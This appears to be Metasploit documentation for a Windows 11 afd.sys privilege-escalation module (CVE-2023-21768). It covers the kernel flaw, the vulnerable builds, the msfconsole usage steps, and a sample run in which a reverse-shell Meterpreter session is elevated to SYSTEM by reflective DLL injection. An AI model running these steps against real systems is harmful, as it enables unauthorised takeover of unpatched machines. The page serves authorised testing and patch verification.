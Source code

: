 ## Vulnerable Application

A vulnerability exists in the Windows Ancillary Function Driver for Winsock
(`afd.sys`) can be leveraged by an attacker to escalate privileges to those of
NT AUTHORITY\SYSTEM. Due to a flaw in `AfdNotifyRemoveIoCompletion`, it is
possible to create an arbitrary kernel Write-Where primitive, which can be used
to manipulate internal I/O ring structures and achieve local privilege
escalation.

This exploit only supports Windows 11 22H2 up to build 22621.963 (patched in
January 2023 updates).

### Installation And Setup
Windows 11 versions 22H2 (without the patch) are vulnerable out of the box.
This exploit module has been tested on Windows 11 versions 22H2 build 22621.525
and 22621.963.

## Options
No specific options to be set.

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use windows/local/cve_2023_21768_afd_lpe`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a privileged session.

## Scenarios

### Windows 11 Version 22H2 Build 22621.963 x64
```
msf6 exploit(windows/local/cve_2023_21768_afd_lpe) > run verbose=true

[*] Started reverse TCP handler on 192.168.100.9:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Windows Build Number = 22621.963
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 3748 launched.
[*] Reflectively injecting the DLL into 3748...
[*] Sending stage (200774 bytes) to 192.168.100.9
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 11 opened (192.168.100.9:4444 -> 192.168.100.9:55346) at 2023-03-27 18:46:08 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN11PRO
OS              : Windows 10 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

